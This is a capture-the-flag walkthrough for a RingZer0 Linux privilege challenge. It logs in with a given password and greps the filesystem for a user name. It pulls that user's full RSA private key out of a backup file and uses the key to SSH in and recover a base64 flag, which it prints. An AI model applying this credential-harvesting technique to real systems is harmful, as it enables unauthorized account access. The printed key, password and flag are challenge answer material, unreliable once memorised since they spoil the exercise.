 #####[Level 4 SysAdmin Linux Level Up](http://ringzer0team.com/challenges/146)
#####Answer
At first moment we must login using ssh:  
```
  ssh morpheus@for01.ringzer0team.com -p 13375
```
Then you asked for password and you will enter `VNZDDLq2x9qXCzVdABbR1HOtz` as a password, Now we wanna access oracle accessing an account needs password or maybe ssh RSA key login so first we search for `oracle` in our root directory:  
```
  $ grep 'oracle' -R / 2>/dev/null
  Binary file /backup/c074fa6ec17bb35e168366c43cf4cd19 matches
  Binary file /var/run/utmp matches
  Binary file /var/cache/apt-show-versions/apackages matches
  Binary file /var/cache/man/index.db matches
```
It seems oracle has backed his profile up so we use `strings` command too see the backup file
```
  $ strings /backup/c074fa6ec17bb35e168366c43cf4cd19
  .
  .
  .
  home/oracle/.ssh/id_rsa
  0000600
  0001750
  0001750
  00000003217
  12310211305
  016007
  ustar  
  chamilton
  chamilton
  -----BEGIN RSA PRIVATE KEY-----
  MIIEpAIBAAKCAQEAqBIMY0jPs4dvQqsyHreYccCOIMFrBy+el5Td8TNc8pQqINNr
  WSefxANe4b0EaAZofvZbBGrHipyB6X+FgugXYqwB0uem06uTGnIdHAZyHV6IE9f/
  hLCm+9nWOJfUvPNFbMaIizvzMVhO6GTGyxJ8zh/ASQXYBHSzyOxkmqDLB7zFteyJ
  F7hv6s6W20TmpjhMQtOC0mYwn64ZCsVi2d1c7tFiw37cOutT1LfZaaAUBIwdpvL6
  BFjqpNkxzwm105eFTDt4WZNKOZ9nOns18MHBHFOXk8WgAxC6gqtE2gr7cTBZsbwv
  jXrte8oTtAWCv3YHSECH91NzE3DKVktCwr1bjQIDAQABAoIBAQCdefu9c1WZY4bu
  MrYNbf0aaE9Dhbcgzo+Me+HQxE2MxSMMCsyEhsn9wSK/5Hkidw6mF3KEmwBIcgiP
  nfqdA5YV0BENahw4LITyvIVl4uw9dHuQDEzQKSzswdkkwa6FNHOSThtWSl+9ln6o
  5PQXBkWGZN2oDh+vXSGvWz+QWqSho8vufmTtYntfFPAfVfcyp8BtiUgKQh069uGg
  XKnehmkrHoW9gQ2Lo0uaFWcTIGm1vsgBd7L4cfb98jDB63H+Lhf4UPYv4WmH2rrj
  bnk5lAU71JK4QsPnnOx1PA685p2e5mEfh0LKRKq9Fx3+umbGPJGvgcjobtXaW9OT
  mpaz6ZPBAoGBAM+diN8s/osQdi8odS9+HUWVZBa9Z2Dn0X2IlSxWK9u/UclhjYgP
  i2KXEY0wRV+ZiXURmrFNVxgA/EJ9BOgptSZNmi9fEdfnVB4L11T7HFny/J8u3sXt
  dn0OqHmf5ZEPtV7m0bK0jtznTgTTuBI9yXvRgHO2HQPCshdP7GIgt++lAoGBAM89
  Pd7HyMYnh0ancCTICkVIIWF6Ylf20BKz4Zwy9tYASCxY3iFllBdOXw/UgCnmJseQ
  73Dcimi5OEyUckOp7xX4HTwidFVbxfNeC0ZfsPbd22qSDcw5orpQMoDy3iP+bPJh
  SgwtusqotGjm0jTpnhqRV5x6rchzkMYwF8/WkvfJAoGBAMeem6yh0XiaclfzWYE5
  jCGMezjWEeD949IEkhGYJQFbmeK79l49O/KmeAy9veYmdSDntUoGp9f/kozHMgGb
  oH5cnQQxL7HczWc6UWd3LhJabIUNhsreAFBL2Ldgg1UPun6uBjACJV7G06AWhWSc
  ne58SDp5frpP5/Y8NXdAKDq1AoGAYCSFQ4lj96n29CxRtn6nZSTld5eTcEOsnECf
  dhuesAFJemlwBAZgAb/2Eh3/p3CCpSr0KmPmQldLaxujNwjrRkHpLjC9z6vX1ePX
  TzqtmpmqZXKEvC4w9EaoZ3JE5GXwnTHNbID6m3JQ4CnVc36+Po0XHB096jTTAV7m
  bSGa5SECgYBE2IuW1pk2pOZ+FDtKltWHk8KK89QmGsFf2YnVZ/FsAkPnayeTkmMz
  AWxRP/W/Uj5ypw7KjprQee31hkisBG/ZPBvQdjAvxF7m4usuEN2Nkb0FTIjZHYbD
  iPOmPHIUlwwL8UVzDQUzXhegSB4GUeP/06T/eM5PPB8SX0ZaHIw1wQ==
  -----END RSA PRIVATE KEY-----
  .
  .
  .
```
So now we have rsa private key, Then easily we store the key in a file such as `id_rsa` and change the file's permission
```
$ echo $RSAKey > id_rsa
$ chmod 600 id_rsa
```
Then it's enough to ssh using `id_rsa` file as a key, thus we have:
```
  $ ssh oracle@for01.ringzer0team.com -p 13375 -i id_rsa
  .
  .
  .
  Last login: Wed Jul  9 13:28:06 2014 from 37.255.26.252
  oracle@forensics:~$
```
Now in the oracle's shell simply read `flag.txt` file and decode it by a [base64 decoder](http://ringzer0team.com/tool) and the result is `FLAG-GIGs1Wq6V6SsZ9h4aQgpGgdbdP`

#####NOTE: It seems the backup file changes each time so some contents are wrong

Keep calm and code in Linux :O
